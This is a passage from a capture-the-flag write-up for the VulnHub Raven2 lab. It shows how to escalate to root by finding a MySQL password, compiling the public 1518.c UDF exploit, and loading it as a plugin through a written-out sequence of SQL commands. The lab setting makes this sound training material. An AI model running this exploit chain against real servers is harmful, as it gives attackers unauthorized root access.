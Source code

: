 Let's get root

We see a password in the config files

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-11-VulnHub-Raven2/2021-11-11-VulnHub-Raven2%2009:02:37.png)

We see that mysql in running as root

```sh
ps auxf | grep mysql
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-11-VulnHub-Raven2/2021-11-11-VulnHub-Raven2%2009:03:17.png)

Once the mysql is running as root and we have the mysql credentails, we can get the UDF mysql function

```sh
searchsploit mysql udf
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-11-VulnHub-Raven2/2021-11-11-VulnHub-Raven2%2009:04:14.png)

Now just, replicate the exploit

```sh
searchsploit -m exploits/linux/local/1518.c
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-11-VulnHub-Raven2/2021-11-11-VulnHub-Raven2%2009:04:57.png)

Now let's exploit

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-11-VulnHub-Raven2/2021-11-11-VulnHub-Raven2%2009:09:32.png)

We compile it

```sh
cd /tmp
gcc -g -c -fPIC 1518.c
gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-11-VulnHub-Raven2/2021-11-11-VulnHub-Raven2%2009:10:55.png)

Now get in the mysql

```sh
mysql -u root -p
R@v3nSecurity
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
create function do_system returns integer soname '1518.so';
select * from mysql.func;
```
